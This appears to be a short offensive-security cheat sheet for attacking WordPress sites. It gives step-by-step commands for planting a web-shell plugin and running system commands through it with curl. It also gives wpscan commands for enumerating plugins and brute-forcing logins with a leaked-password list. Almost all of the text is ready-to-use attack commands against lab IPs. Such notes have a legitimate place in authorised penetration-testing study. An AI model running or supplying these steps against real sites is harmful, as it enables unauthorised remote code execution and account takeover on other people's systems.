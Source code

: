 # WordPress

Reverse-shell with a malicious plugin:

```text
$ cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
$ zip plugin-shell.zip plugin-shell.php
...Upload plugin-shell.zip and install it (but do not activate)...
$ curl 'http://10.10.13.37/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami'
```

## wpscan

* [https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
* [https://wpscan.com/profile](https://wpscan.com/profile)

```text
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force -e ap
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force --passwords /usr/share/seclists/Passwords/darkweb2017-top1000.txt
```

